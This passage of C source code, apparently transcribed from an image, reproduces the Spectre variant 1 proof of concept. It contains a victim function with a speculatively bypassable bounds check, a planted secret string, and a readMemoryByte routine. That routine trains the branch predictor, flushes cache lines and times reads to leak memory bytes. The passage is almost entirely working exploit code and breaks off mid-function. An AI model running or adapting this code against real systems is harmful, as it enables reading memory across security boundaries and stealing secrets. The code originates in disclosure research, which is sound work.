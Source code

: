 ```c
uint8_t unused2[64]; 
uint8_t array2[256 * 512];

char *secret = "The Magic Words are Squeamish Ossifrage.";

uint8_t temp = 0;  /* Used so compiler won't optimize out victim_function() */

void victim_function(size_t x) {
    if (x < array1_size) {
        temp &= array2[array1[x] * 512];
    }
}


/********************************************************************
Analysis code
********************************************************************/
#define CACHE_HIT_THRESHOLD (80)  /* assume cache hit if time <= threshold */

/* Report best guess in value[0] and runner-up in value[1] */
void readMemoryByte(size_t malicious_x, uint8_t value[2], int score[2]) {
    static int results[256];
    int tries, i, j, k, mix_i, junk = 0;
    size_t training_x, x;
    register uint64_t time1, time2;
    volatile uint8_t *addr;

    for (i = 0; i < 256; i++)
        results[i] = 0;
    for (tries = 999; tries > 0; tries--) {

        /* Flush array2[256*(0..255)] from cache */
        for (i = 0; i < 256; i++)
            _mm_clflush(&array2[i * 512]);  /* intrinsic for clflush instruction */

        /* 30 loops: 5 training runs (x=training_x) per attack run (x=malicious_x) */
        training_x = tries % array1_size;
        for (j = 29; j >= 0; j--) {
            _mm_clflush(&array1_size);
            for (volatile int z = 0; z < 100; z++) {}  /* Delay (can also mfence) */

            /* Bit twiddling to set x=training_x if j%6!=0 or malicious_x if j%6==0 */
            /* Avoid jumps in case those tip off the branch predictor */
            x = ((j % 6) - 1) & ~0xFFFF;   /* Set x=FFF.FF0000 if j%6==0, else x=0 */
            x = (x | (x >> 16));           /* Set x=-1 if j&6=0, else x=0 */
            x = training_x ^ (x & (malicious_x ^ training_x));
            
            /* Call the victim! */
            victim_function(x);
        }

        /* Time reads. Order is lightly mixed up to prevent stride prediction */
        for (i = 0; i < 256; i++) {
            mix_i = ((i * 167) + 13) & 255;
            addr = &array2[mix_i * 512];
            time1 = __rdtscp(&junk);            /* READ TIMER */
            junk = *addr;                       /* MEMORY ACCESS TO TIME */
            time2 = __rdtscp(&junk) - time1;    /* READ TIMER & COMPUTE ELAPSED TIME */
            if (time2 <= CACHE_HIT_THRESHOLD && mix_i != array1[tries % array1_size])
                results[mix_i]++;  /* cache hit - add +1 to score for this value */
        }

        /* Locate highest & second-highest results results tallies in j/k */
```